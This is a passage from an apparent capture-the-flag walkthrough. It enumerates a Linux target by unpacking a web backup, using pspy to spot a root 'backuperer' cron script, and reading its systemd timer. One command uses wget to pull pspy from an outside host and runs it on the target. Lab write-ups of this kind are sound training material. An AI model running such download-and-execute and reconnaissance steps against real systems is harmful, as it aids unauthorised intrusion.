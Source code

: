 
Let’s check out the backup file first:

```bash
file /var/backups/onuma-www-dev.bak

/var/backups/onuma-www-dev.bak: gzip compressed data, last modified: Wed Sep 10 10:02:51 2025, from Unix

gunzip -c onuma-www-dev.bak > onuma-www-dev

file  onuma-www-dev

onuma-www-dev: POSIX tar archive (GNU)
```

Just the backup of webservices. Let’s use pspy to check for cron jobs, since crontab and /etc/crontab did not show anything:

```bash
wget http://10.10.16.7/pspy32s

chmod +x pspy32s
./pspy32s

2025/09/10 06:18:01 CMD: UID=0     PID=25725  | /bin/bash /usr/sbin/backuperer 
2025/09/10 06:18:01 CMD: UID=0     PID=25727  | /bin/rm -rf /var/tmp/. /var/tmp/.. /var/tmp/check 
2025/09/10 06:18:01 CMD: UID=0     PID=25731  | /bin/bash /usr/sbin/backuperer 
2025/09/10 06:18:01 CMD: UID=0     PID=25730  | /bin/bash /usr/sbin/backuperer 
2025/09/10 06:18:01 CMD: UID=1000  PID=25734  | /bin/tar -zcvf /var/tmp/.34d18c813cd44d3be99cb0ea528278c637f4304a /var/www/html 

2025/09/10 06:18:01 CMD: UID=1000  PID=25735  | gzip 

q2025/09/10 06:18:31 CMD: UID=0     PID=25741  | gzip -d 
2025/09/10 06:18:31 CMD: UID=0     PID=25740  | /bin/tar -zxvf /var/tmp/.34d18c813cd44d3be99cb0ea528278c637f4304a -C /var/tmp/check 
2025/09/10 06:18:32 CMD: UID=0     PID=25743  | /bin/bash /usr/sbin/backuperer 
2025/09/10 06:18:32 CMD: UID=0     PID=25742  | /bin/bash /usr/sbin/backuperer 
2025/09/10 06:18:32 CMD: UID=0     PID=25744  | /bin/mv /var/tmp/.34d18c813cd44d3be99cb0ea528278c637f4304a /var/backups/onuma-www-dev.bak 
2025/09/10 06:18:32 CMD: UID=0     PID=25745  | /bin/rm -rf /var/tmp/check . .. 

```

We can also find out how often the script runs by using linenum.sh:

```bash
[-] Systemd timers:                                                                                                                              
NEXT                         LEFT      LAST                         PASSED       UNIT                         ACTIVATES                          
Wed 2025-09-10 06:33:06 EDT  10s left  Wed 2025-09-10 06:28:06 EDT  4min 49s ago backuperer.timer             backuperer.service                 
Wed 2025-09-10 06:38:26 EDT  5min left Wed 2025-09-10 04:06:56 EDT  2h 25min ago apt-daily-upgrade.timer      apt-daily-upgrade.service          
Wed 2025-09-10 16:22:13 EDT  9h left   Wed 2025-09-10 04:06:56 EDT  2h 25min ago apt-daily.timer              apt-daily.service
Thu 2025-09-11 04:21:56 EDT  21h left  Wed 2025-09-10 04:21:56 EDT  2h 10min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service     
                                                                                                                                                 
4 timers listed.                                                                                                                                 
Enable thorough tests to see inactive timers  
```
